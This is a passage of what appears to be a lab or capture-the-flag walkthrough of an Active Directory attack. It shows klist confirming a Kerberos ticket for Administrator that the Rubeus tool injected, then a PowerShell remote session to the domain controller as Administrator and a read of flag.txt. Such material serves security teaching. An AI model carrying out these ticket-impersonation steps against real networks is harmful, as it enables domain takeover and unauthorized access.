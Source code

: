 > To confirm that `Rubeus` injected the ticket in the current session, we can use the `klist` command:

```powershell
PS C:\Users\bob\Downloads> klist

Current LogonId is 0:0x88721

Cached Tickets: (1)

#0>     Client: Administrator @ EAGLE.LOCAL
        Server: http/dc1 @ EAGLE.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 10/13/2022 14:56:07 (local)
        End Time:   10/14/2022 0:56:07 (local)
        Renew Time: 10/20/2022 14:56:07 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

![klist](img/klist.png)

With the ticket being available, we can connect to the Domain Controller impersonating the account `Administrator`:

```powershell
PS C:\Users\bob\Downloads> Enter-PSSession dc1
[dc1]: PS C:\Users\Administrator\Documents> hostname
DC1
[dc1]: PS C:\Users\Administrator\Documents> whoami
eagle\administrator
[dc1]: PS C:\Users\Administrator\Documents>
```

![Enter-PSSession](img/Enter-PSSession.png)


[dc1]: PS C:\Users\Administrator\Documents> dir
[dc1]: PS C:\Users\Administrator\Documents> cat flag.txt